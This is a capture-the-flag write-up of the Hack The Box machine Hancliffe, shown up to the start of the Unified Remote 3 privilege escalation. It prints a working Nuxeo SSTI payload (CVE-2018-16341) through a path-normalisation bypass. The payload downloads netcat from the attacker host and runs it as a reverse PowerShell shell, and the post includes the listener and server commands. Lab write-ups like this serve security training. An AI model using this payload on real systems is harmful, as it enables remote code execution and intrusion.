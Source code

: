 ```yaml
---
title:     "Hack The Box - Hancliff"
tags: [windows,hard,nuxeo,ssti,path normalization,unified remote,cve,firefox,binex,pwn,eggunter]
categories: HackTheBox
---
```

[![00_info_card](/img/hancliff/00_info_card.png)](/img/hancliff/00_info_card.png)

Hancliffe is a hard rated machine on HackTheBox created by [Revolt](https://www.hackthebox.eu/home/users/profile/189435). For the user part we will abuse a path normalisation vulnerability and a CVE in nuxeo to achieve RCE and a foothold on the machine. On the machine the running `Unified Remote 3` version has another know vulnerability which gives us a shell as clara. For the root part we will find credentials for a password manager in clara's firefox data. This let's us login via PSRemote as the development user, who has access to a directory with an application running as administrator. This application has a buffer overflow vulnerability which we can abuse to achieve a reverse shell as administrator on the machine.

# User

## Nmap

As usual we start our enumeration of with a nmap scan against all ports followed by a script and version detection scan against the open ones to get an initial overview of the attack surface.

`All ports`
```
$ sudo nmap -p- -T4 10.129.95.247
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 16:43 GMT
Nmap scan report for hancliffe.htb (10.129.95.247)
Host is up (0.066s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
8000/tcp open  http-alt
9999/tcp open  abyss

Nmap done: 1 IP address (1 host up) scanned in 290.27 seconds
```

`Scrip and version`
```
$ sudo nmap -p80,8000,9999 -sC -sV 10.129.95.247
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 16:49 GMT
Nmap scan report for hancliffe.htb (10.129.95.247)
Host is up (0.027s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.21.0
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.21.0
8000/tcp open  http    nginx 1.21.0
|_http-title: HashPass | Open Source Stateless Password Manager
|_http-server-header: nginx/1.21.0
9999/tcp open  abyss?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBPr
ogNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe:
|     Welcome Brankas Application.
|     Username: Password:
|   NULL:
|     Welcome Brankas Application.
|_    Username:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.92%I=7%D=10/10%Time=61631994%P=x86_64-pc-linux-gnu%r(N
...[snip]...
F:sword:\x20")%r(NotesRPC,31,"Welcome\x20Brankas\x20Application\.\nUserna
SF:me:\x20Password:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 157.03 seconds
```

## Nuxeo

From the open ports the web ports seem promising so we start there. Going over to port 80 we see the default nginx hosting page.

[![01_nginx_home](/img/hancliff/01_nginx_home.png)](/img/hancliff/01_nginx_home.png)

On port 8000 there is an installation of a password manager running which doesn't seem of much use just yet.

[![02_hashpass_home](/img/hancliff/02_hashpass_home.png)](/img/hancliff/02_hashpass_home.png)

Running a gobuster scan on the application on port 80 we can identify a maintenance directory which get's redirected to `/nuxeo/Maintenance/`.

```
$ gobuster dir -w /opt/SecLists/Discovery/Web-Content/raft-large-words-lowercase.txt -u http://hancliffe.htb/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://hancliffe.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-large-words-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/10 17:28:57 Starting gobuster in directory enumeration mode
===============================================================
/.                    (Status: 200) [Size: 612]
/maintenance          (Status: 302) [Size: 0] [--> /nuxeo/Maintenance/]
/con                  (Status: 500) [Size: 494]
/nul                  (Status: 500) [Size: 494]
```

Looking for recent vulnerabilities in nuxeo we find [CVE-2018-16341](https://github.com/mpgn/CVE-2018-16341). Going over to `/maintenance` it just displays a `we'll be back soon` page.

[![03_nginx_maintenance](/img/hancliff/03_nginx_maintenance.png)](/img/hancliff/03_nginx_maintenance.png)

The application does howerver perform a dangerous path normalisation which let's us access the directory one path up leading to access to the `login.jsp` page mentioned in the PoC exploit of the CVE. This page also displays the running version of nuxeo which seems to be promising for the vulnerability to be present.

[![04_nuxeo_login](/img/hancliff/04_nuxeo_login.png)](/img/hancliff/04_nuxeo_login.png)

Testing for the SSTI with a simple payload we can see that our code gets evaluated, confirming our suspicion.

[![06_nuxeo_ssti_poc](/img/hancliff/06_nuxeo_ssti_poc.png)](/img/hancliff/06_nuxeo_ssti_poc.png)

Following the PoC of the exploit we can build a payload adding an additional parameter in the `exec` part. This let's us move our complete payload to the end of the request.

```
/maintenance/..;/login.jsp/pw${''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(param.x)}.xhtml?x=powershell.exe+iwr+http://10.10.14.74/nc64.exe+-o+C:/windows/temp/c.exe;C:/windows/temp/c.exe+-e+powershell+10.10.14.74+7575
```

We start a python webserver to host our netcat binary and listen on the port we want to recieve the reverse shell.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
$ rlwrap nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Now we can send the request in burp, url encoding the whole SSTI part of the payload to safely send bad characters.

[![07_nuxeo_burp_rev](/img/hancliff/07_nuxeo_burp_rev.png)](/img/hancliff/07_nuxeo_burp_rev.png)

We get a hit on our web server for the `nc64.exe` binary and almost instantly after a reverse shell on our listener as `svc_account`

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.95.247 - - [10/Oct/2021 19:49:06] "GET /nc64.exe HTTP/1.1" 200 -
10.129.95.247 - - [10/Oct/2021 19:50:10] "GET /nc64.exe HTTP/1.1" 200 -
```

```
{% raw %}
$ rlwrap nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.95.247.
Ncat: Connection from 10.129.95.247:49762.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Nuxeo > whoami
hancliffe\svc_account
{% endraw %}
```

## Unified Remote 3

Looking for unusual installed programs we find `Unified Remote 3`.

```
PS C:\Nuxeo > ls '\Program Files (x86)\'

    Directory: C:\Program Files (x86)


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          6/3/2021   7:11 AM                Common Files
d-----         10/3/2021  11:08 PM                Internet Explorer
d-----          6/3/2021   8:09 PM                Microsoft
d-----         12/7/2019   6:48 AM                Microsoft.NET
d-----         6/26/2021  10:15 PM                Mozilla Maintenance Service
d-----         6/12/2021   2:51 AM                MSBuild
d-----         6/12/2021   2:51 AM                Reference Assemblies
d-----         6/12/2021  12:21 AM                Unified Remote 3
d-----          4/9/2021   6:48 AM                Windows Defender
d-----         7/18/2021  12:20 AM                Windows Mail
d-----         12/7/2019   6:44 AM                Windows NT
d-----          4/9/2021   6:48 AM                Windows Photo Viewer
d-----         12/7/2019   1:25 AM                WindowsPowerShell

```
